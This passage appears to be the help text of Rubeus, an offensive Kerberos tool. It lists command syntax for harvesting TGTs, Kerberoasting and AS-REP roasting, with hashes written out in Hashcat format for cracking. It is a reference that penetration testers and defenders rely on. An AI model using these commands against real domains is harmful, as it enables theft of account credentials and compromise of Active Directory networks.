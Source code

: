         Monitor every /interval SECONDS (default 60) for new TGTs:
            Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME]

        Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):
            Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME]


     Roasting:

        Perform Kerberoasting:
            Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform Kerberoasting, outputting hashes to a file:
            Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]

        Perform Kerberoasting, outputting hashes in the file output format, but to the console:
            Rubeus.exe kerberoast /simple [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform Kerberoasting with alternate credentials:
            Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform Kerberoasting with an existing TGT:
            Rubeus.exe kerberoast /spn:"blah/blah" </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
            Rubeus.exe kerberoast /usetgtdeleg [/nowrap]

        Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
            Rubeus.exe kerberoast /rc4opsec [/nowrap]

        List statistics about found Kerberoastable accounts without actually sending ticket requests:
            Rubeus.exe kerberoast /stats [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
            Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
            Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/nowrap]

        Perform AES Kerberoasting:
            Rubeus.exe kerberoast /aes [/nowrap]

        Perform AS-REP "roasting" for any users without preauth:
            Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]

        Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:
            Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
